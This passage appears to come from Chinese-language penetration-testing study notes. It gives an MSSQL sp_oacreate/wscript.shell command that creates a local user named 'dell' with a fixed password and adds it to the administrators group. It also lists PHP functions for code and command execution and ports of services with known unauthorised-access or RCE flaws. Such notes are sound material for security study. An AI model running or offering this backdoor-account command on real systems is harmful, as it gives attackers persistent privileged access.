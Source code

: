 

#### 4. 终极方法,如果以上方法均不可恢复,直接添加帐户: 

```basic
查询分离器连接后, 
2000servser 系统: 
declare @shell int exec sp_oacreate wscript.shell,@shell output exec sp_oamethod @shell,run,null,c:winntsystem32cmd.exe /c net user dell huxifeng007 /add 

declare @shell int exec sp_oacreate wscript.shell,@shell output exec sp_oamethod @shell,run,null,c:winntsystem32cmd.exe /c net localgroup administrators dell /add 
sql2008 提权 低权限运行 
```

  






### Getshell的几种方式

![](https://cdn.nlark.com/yuque/0/2021/png/3013360/1627856179822-bc47dfb1-c979-40c0-9c10-37ca23366931.png)

引用：[https://xz.aliyun.com/t/7500](https://xz.aliyun.com/t/7500)



### 冰蝎和哥斯拉实现原理




### 代码执行、文件读取、命令执行的函数有哪些

```basic
代码执行：

eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function

2）文件读取：

file_get_contents(),highlight_file(),fopen(),read file(),fread(),
fgetss(), fgets(),parse_ini_file(),show_source(),file()

3)命令执行：

system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()
```



### 特殊服务漏洞(未授权/命令执行类/漏洞)

> 443 SSL心脏滴血 
>
> 873 Rsync未授权 
>
> 5984 CouchDB http://xxx:5984/_utils/ 
>
> 6379 redis未授权 
>
> 7001,7002 WebLogic默认弱口令，反序列 
>
> 9200,9300 elasticsearch ElasticSearch命令执行漏洞 
>
> 11211 memcache未授权访问 
>
> 27017,27018 Mongodb未授权访问 
>